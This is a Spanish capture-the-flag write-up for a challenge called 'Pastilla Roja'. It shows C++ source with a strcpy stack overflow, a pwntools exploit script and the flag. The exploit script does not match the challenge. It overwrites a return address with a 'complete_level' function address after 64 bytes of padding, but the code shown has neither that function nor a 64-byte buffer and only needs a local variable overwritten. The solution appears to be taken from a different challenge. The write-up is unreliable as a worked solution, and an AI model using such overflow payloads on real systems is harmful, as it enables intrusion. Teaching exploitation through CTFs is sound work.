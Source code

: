 # Pastilla Roja
## Description
Decidir entre la pastilla azul o la pastilla roja es una decisión complicada. Pero ahora... ya hemos tomado una decisión. Intenta conseguir la pastilla roja.

Archivos:
- `redpill`

## Solution
El código original es:

```c++
#include <iostream>
#include <cstring> 
using namespace std;

int main(int argc, char **argv)
{
	cout << " Take the Red Pill!! \n" << endl;
	
	int pill;
	char buffer[15];
	if(argc == 1) {
		cout << " use: " << argv[0] <<" PILL " << endl;
		return 0;
	}
	
	pill = 0xb103743;
	strcpy(buffer, argv[1]);
	
	printf("     Red Pill  0x60334772\n");	
	printf("     Your Pill 0x%08x\n", pill);
	
	if(pill == 0x60334772) {
		printf("\n  Red Pill\n");
		char p2[] = "b0t";
		char p1[] = "t4k";
		cout << "  LetsCTF{" << p1 << "e-" << p2 << "h_"<< std::to_string(pill) << "} " << endl;
	}
	else {
		printf("\n  Blue Pill\n");
	}
}
```

Podemos resolver el reto con el siguiente script:

```python
from pwn import *

# Dirección IP y puerto del servidor
host = '127.0.0.1'
port = 40000

io = remote(host, port)

# Dirección de la función complete_level en formato little endian
complete_level_address = p32(0x08049196)

# Crear el payload
payload = b'A' * 64  # Llenar el buffer
payload += complete_level_address  # Sobrescribir el puntero de retorno con la dirección de complete_level

# Establecer conexión con el servidor utilizando pwntools y enviar el payload
io.sendline(payload)

# Leer y mostrar la salida hasta que se encuentre el mensaje "calling function pointer"
output = io.recvuntil(b"calling function pointer")

# Leer y mostrar la salida restante
output = io.recvall().decode(errors='replace')
print(f"calling function pointer{output}")
```

## Flag
LetsCTF{t4ke-b0th_1613973362}
